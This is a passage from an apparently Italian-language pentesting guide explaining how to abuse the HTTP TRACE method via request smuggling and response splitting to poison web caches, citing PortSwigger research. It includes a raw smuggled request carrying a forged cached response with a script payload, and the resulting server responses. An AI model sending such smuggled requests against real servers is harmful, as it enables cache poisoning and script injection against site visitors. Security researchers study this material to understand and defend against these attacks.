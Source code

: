 ### Abusare di TRACE tramite HTTP Response Splitting <a href="#exploiting-web-cache-poisoning-via-http-request-smuggling" id="exploiting-web-cache-poisoning-via-http-request-smuggling"></a>

Continuare seguendo [**questo post**](https://portswigger.net/research/trace-desync-attack) è suggerito un altro modo per abusare del metodo TRACE. Come commentato, smuggler una richiesta HEAD e una richiesta TRACE è possibile **controllare alcuni dati riflessi** nella risposta alla richiesta HEAD. La lunghezza del corpo della richiesta HEAD è fondamentalmente indicata nell'intestazione Content-Length ed è formata dalla risposta alla richiesta TRACE.

Pertanto, la nuova idea sarebbe che, conoscendo questo Content-Length e i dati forniti nella risposta TRACE, è possibile far sì che la risposta TRACE contenga una risposta HTTP valida dopo l'ultimo byte del Content-Length, consentendo a un attaccante di controllare completamente la richiesta alla risposta successiva (che potrebbe essere utilizzata per eseguire un avvelenamento della cache).

Esempio:
```
GET / HTTP/1.1
Host: example.com
Content-Length: 360

HEAD /smuggled HTTP/1.1
Host: example.com

POST /reflect HTTP/1.1
Host: example.com

SOME_PADDINGXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXHTTP/1.1 200 Ok\r\n
Content-Type: text/html\r\n
Cache-Control: max-age=1000000\r\n
Content-Length: 44\r\n
\r\n
<script>alert("response splitting")</script>
```
Genererà queste risposte (nota come la risposta HEAD ha un Content-Length che rende la risposta TRACE parte del corpo HEAD e una volta che il Content-Length HEAD termina, una risposta HTTP valida viene nascosta):
```
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 165

HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 243

SOME_PADDINGXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXHTTP/1.1 200 Ok
Content-Type: text/html
Cache-Control: max-age=1000000
Content-Length: 50

<script>alert(“arbitrary response”)</script>
```
### Arma di HTTP Request Smuggling con Desincronizzazione della Risposta HTTP
